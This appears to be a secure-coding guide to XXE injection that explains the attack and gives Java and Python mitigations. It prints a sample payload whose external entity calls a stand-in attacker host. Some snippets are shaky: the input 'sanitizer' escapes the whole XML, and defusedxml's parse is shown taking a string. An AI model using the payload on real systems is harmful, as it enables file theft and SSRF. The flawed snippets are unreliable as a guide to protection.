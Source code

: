 XML External Entity (XXE) Injection is a type of attack that exploits vulnerabilities in XML parsers. It occurs when an XML parser processes external entities provided by an attacker, leading to unauthorized access to sensitive data, server-side request forgery (SSRF), or denial of service (DoS) attacks. Here's how it works and how to mitigate it:

### How it's Done:

1. **Injection Point:**
   - The attacker identifies a point in the application where XML input is accepted and processed, such as XML parsing functions or web services that accept XML input.

2. **Malicious Payload:**
   - The attacker crafts a malicious XML payload that includes an external entity declaration pointing to a resource under their control. For example:
     ```xml
     <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com/evil.dtd"> ]>
     <data>&xxe;</data>
     ```

3. **Parsing by the Application:**
   - The application processes the XML input, including the external entity declaration, and attempts to resolve the external entity.

4. **Exploitation:**
   - If the XML parser is vulnerable to XXE injection, it will resolve the external entity, allowing the attacker to read sensitive files, perform SSRF attacks, or cause DoS by fetching large files.

### Countermeasures:

#### 1. Disable External Entity Processing:

**Description:**
Disable the processing of external entities in XML parsers to prevent XXE attacks.

**Code Snippet (Java - Disable External Entities in DocumentBuilder):**
```java
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

#### 2. Use Whitelisting:

**Description:**
Whitelist acceptable XML schemas and disallow any external entities.

**Code Snippet (Java - Enable Secure Processing and Set Schema):**
```java
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
factory.setSchema(schema); // Set schema object
```

#### 3. Input Sanitization:

**Description:**
Sanitize user input to remove or neutralize XML-related characters that could be used in XXE attacks.

**Code Snippet (Python - Input Sanitization):**
```python
import xml.etree.ElementTree as ET

def sanitize_xml(input_xml):
    # Remove or neutralize XML-related characters
    sanitized_xml = input_xml.replace('&', '&amp;').replace('<', '&lt;').replace('>', '&gt;')
    return sanitized_xml
```

#### 4. Use Safe XML Parsers:

**Description:**
Use XML parsers that are not vulnerable to XXE attacks, or use libraries with built-in protections.

**Code Snippet (Python - Using defusedxml Library):**
```python
from defusedxml.ElementTree import parse

def safe_parse_xml(xml_string):
    tree = parse(xml_string)
    return tree
```

### Summary:

XML External Entity (XXE) Injection is a serious vulnerability that can lead to data theft, SSRF attacks, or DoS. To mitigate XXE attacks, it's essential to disable external entity processing, use whitelisting, sanitize input, and employ safe XML parsers. By implementing these countermeasures, you can significantly reduce the risk of XXE vulnerabilities in your applications.
